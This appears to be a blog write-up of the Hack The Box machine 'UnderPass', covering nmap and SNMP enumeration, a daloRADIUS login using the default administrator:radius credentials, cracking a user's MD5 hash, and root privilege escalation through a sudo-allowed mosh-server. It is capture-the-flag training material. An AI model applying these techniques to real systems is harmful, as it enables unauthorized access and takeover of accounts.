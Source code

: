 +++
title = "HTB - UnderPass"
date = "2025-04-22"
author = "dax"
cover = ""
tags = ["snmp", "daloradius", "mosh"]
keywords = ["hacking", "htb", "underpass", "hack the box"]
description = "Write-up of Hack The Box easy machine UnderPass"
showFullContent = false
readingTime = true
hideComments = false
color = "green"
+++

# HTB - UnderPass
## Enumeration:
Nmap
```bash
# Nmap 7.95 scan initiated Fri Apr  4 13:21:10 2025 as: /usr/lib/nmap/nmap -v -p - -Pn -T4 -A -oN nmaptcp underpass.htb
Nmap scan report for underpass.htb (10.10.11.48)
Host is up (0.023s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Uptime guess: 28.785 days (since Thu Mar  6 17:31:14 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   22.07 ms 10.10.14.1
2   22.48 ms underpass.htb (10.10.11.48)

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Apr  4 13:21:40 2025 -- 1 IP address (1 host up) scanned in 30.65 seconds

# Nmap 7.95 scan initiated Fri Apr  4 13:21:25 2025 as: /usr/lib/nmap/nmap -v --top-ports 100 -Pn -T4 -A -sU -oN nmapudp underpass.htb
Nmap scan report for underpass.htb (10.10.11.48)
Host is up (0.035s latency).
Not shown: 65 closed udp ports (port-unreach)
PORT      STATE         SERVICE         VERSION
161/udp   open          snmp            SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-info:
|   enterprise: net-snmp
|   engineIDFormat: unknown
|   engineIDData: c7ad5c4856d1cf6600000000
|   snmpEngineBoots: 31
|_  snmpEngineTime: 7h23m18s
| snmp-sysdescr: Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
|_  System uptime: 7h23m17.75s (2659775 timeticks)

Too many fingerprints match this host to give specific OS details
Network Distance: 2 hops
Service Info: Host: UnDerPass.htb is the only daloradius server in the basin!

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Apr  4 13:26:41 2025 -- 1 IP address (1 host up) scanned in 315.62 seconds
```

## User exploit

Looking at the NMap UDP scan, we can see that SNMP port 161 is open. SNMP can be useful to gather information about a host (and sometimes to write that information too). In this case, as we can see from the NMap service info, the server seems to be a Daloradius server. We can also get this information by querying the `public` community with `snmp-check`.

```bash
snmp-check 10.10.11.48 -c public
snmp-check v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 10.10.11.48:161 using SNMPv1 and community 'public'

[*] System information:

  Host IP address               : 10.10.11.48
  Hostname                      : UnDerPass.htb is the only daloradius server in the basin!
  Description                   : Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
  Contact                       : steve@underpass.htb
  Location                      : Nevada, U.S.A. but not Vegas
  Uptime snmp                   : 14:24:33.70
  Uptime system                 : 14:24:22.39
  System date                   : 2025-4-23 00:28:23.0
```

As per their Github page, daloRADIUS is an advanced RADIUS web management application for managing hotspots and general-purpose ISP deployments. We can have a look at their repository to figure out the directory structure, and soon enough we can find the operator's login page on web port 80 at http://underpass.htb/daloradius/app/operators/login.php.

![](/img/htb/underpass/daloradius_login.png)

A quick Google search gives us the default credentials (administrator:radius), which allows us to log in to the operator's portal. Taking a quick look around, we eventually stumble upon the `Management > Users > List Users` interface, which contains the user `svcMosh`. It also has a very suspicious `Password` column that seems to contain a hash.

![](/img/htb/underpass/daloradius_user.png)

By editing the user and going to the `Check Attributes` tab, we can see that this is indeed an `MD5` hash for the user's password, which we can easily crack online to get the password.

![](/img/htb/underpass/daloradius_pw.png)

We can then use these credentials to log into the SSH port and get the user flag (be careful, usernames are case sensitive).

## Root exploit

Running `sudo -l` tells us that we can run the command `/usr/bin/mosh-server` as root, without supplying a password (`(ALL) NOPASSWD: /usr/bin/mosh-server`). This command allows us to start a Mobile Shell server. The Mosh Github page tells us that Mosh is a remote terminal application that supports intermittent connectivity, allows roaming, and provides speculative local echo and line editing of user keystrokes.

The Github page doesn't go into many details of how the `mosh-server` command works, but the man page is more helpful.

```
mosh-server binds to a high UDP port and chooses an encryption key to protect the session. It prints both
on standard output, detaches from the terminal, and waits for the mosh-client to establish a  connection.
It will exit if no client has contacted it within 60 seconds.
```

The `mosh-client` man page also gives us good information.

```
mosh  itself  is  a  setup  script  that establishes an SSH connection, runs the server-side helper mosh-
server, and collects the server's port number and session key.

mosh then executes mosh-client with the server's IP address, port, and session key. mosh-client runs  for
the lifetime of the connection.

The  22-byte  base64  session  key given by mosh-server is supplied in the MOSH_KEY environment variable.
This represents a 128-bit AES key that protects the integrity and confidentiality of the session.
```

Now that we know how to use the `mosh-server` and `mosh-client` commands, we can use them to get a root shell.

```bash
svcMosh@underpass:~$ sudo /usr/bin/mosh-server


MOSH CONNECT 60003 1DPloN+qSDealpww3Sy+/A

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 35250]

MOSH_KEY=1DPloN+qSDealpww3Sy+/A mosh-client 127.0.0.1 60003
```

## Resources:

| Hyperlink                              | Info       |
| -------------------------------------- | ---------- |
| https://github.com/lirantal/daloradius | daloRADIUS |
| https://github.com/mobile-shell/mosh   | Mosh       |
